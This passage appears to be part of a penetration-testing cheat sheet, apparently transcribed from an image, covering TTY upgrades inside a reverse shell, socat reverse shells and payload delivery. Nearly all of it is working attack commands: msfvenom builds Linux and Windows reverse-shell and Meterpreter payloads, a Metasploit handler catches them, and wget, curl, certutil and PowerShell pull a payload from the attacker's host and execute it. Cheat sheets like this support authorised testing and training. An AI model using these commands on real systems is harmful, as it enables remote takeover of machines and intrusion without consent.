 
### 5) TTY upgrade (Linux)
```bash
# In the reverse shell:
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Background and fix local TTY:
# Press: Ctrl+Z
stty raw -echo; fg
reset
export TERM=xterm
stty rows 50 columns 120
```

socat method (if available for a fully interactive TTY):
```bash
# Attacker
socat file:`tty`,raw,echo=0 tcp-listen:4444

# Target
socat exec:"bash -li",pty,stderr,setsid,sigint,sane tcp:$LHOST:4444
```

### 6) Payload generation and handling (msfvenom + handler)
```bash
# Linux ELF reverse shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f elf -o rev.elf

# Windows EXE reverse shell (stageless)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f exe -o rev.exe

# Meterpreter (example)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=4444 -f exe -o met_rev.exe

# Handler
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/shell_reverse_tcp; set LHOST $LHOST; set LPORT 4444; run"
```

### 7) File transfer
```bash
# Host files (attacker)
python3 -m http.server 8000

# Linux target (pull)
wget http://$LHOST:8000/rev.elf -O /tmp/rev.elf
curl -o /tmp/rev.elf http://$LHOST:8000/rev.elf
chmod +x /tmp/rev.elf; /tmp/rev.elf

# Windows target (pull)
certutil -urlcache -f http://%LHOST%:8000/rev.exe C:\Windows\Temp\rev.exe
powershell -Command "Invoke-WebRequest -Uri http://$env:LHOST:8000/rev.exe -OutFile C:\Windows\Temp\rev.exe"
```

